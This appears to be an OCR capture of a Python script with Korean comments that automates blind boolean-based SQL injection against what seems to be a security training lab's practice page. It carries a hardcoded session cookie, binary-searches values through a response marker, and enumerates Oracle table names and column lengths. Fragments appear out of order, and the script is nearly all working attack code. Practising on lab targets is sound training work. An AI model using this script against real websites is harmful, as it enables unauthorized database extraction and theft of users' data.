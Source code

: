             # 데이터 길이 확인 (선택 사항)
            max_length_query = f"select max(length({column_name})) from {table}"
            max_length = binarySearch(max_length_query)
            print(f"    {column_name} 최대 길이: {max_length}")


7..
import requests
requests.packages.urllib3.disable_warnings()

url = "https://elms2.skinfosec.co.kr:8222/practice/practice01/detail?id=62"

cookies = {
    "JSESSIONID": "DD69440070FB72FBDCD551628468CE83"
}

def binarySearch(query):
    """주어진 쿼리에 대해 이진 탐색을 수행하여 값을 찾습니다."""
    min_val = 1
    max_val = 127
    while min_val < max_val:
        avg = (min_val + max_val) // 2
        attackQuery = f"({query}) > {avg}"
        attackUrl = url + " and " + attackQuery        
        res = requests.get(attackUrl, cookies=cookies)

        if '권한이' in res.text:
            print("쿠키를 다시 넣어주세요.")
            exit()

        if 'MacBook' in res.text:       
            min_val = avg + 1
        else:
            max_val = avg
    return min_val

# 1. 테이블 개수 확인
# table_count_query = "select count(table_name) from user_tables"
# count = binarySearch(table_count_query)
# print(f"1-1. 테이블 개수: {count}개")

# 2. 각 테이블의 이름 길이와 이름 추출
tables = ["BAG", "MEMBER", "MEMBER_ROLE", "NOTICE", "PRODUCT", "PRODUCTIMG", "QNA", "ROLE", "ORDERLIST", "COUPONLIST", "COUPON", "ACCESS_LOG"]  # 임시로 테이블 이름을 지정합니다.
